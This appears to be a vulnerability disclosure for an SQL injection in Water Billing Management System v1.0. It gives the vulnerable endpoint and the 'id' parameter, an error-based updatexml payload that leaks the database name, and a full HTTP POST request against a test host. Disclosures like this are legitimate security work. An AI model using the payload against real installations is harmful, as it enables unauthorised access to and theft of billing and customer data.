 # water-billing-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15309/water-billing-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /wbms/classes/Master.php?f=delete_client

Vulnerability location: /wbms/classes/Master.php?f=delete_client, id

[+] Payload:id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /wbms/classes/Master.php?f=delete_client HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/wbms/admin/?page=clients
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)


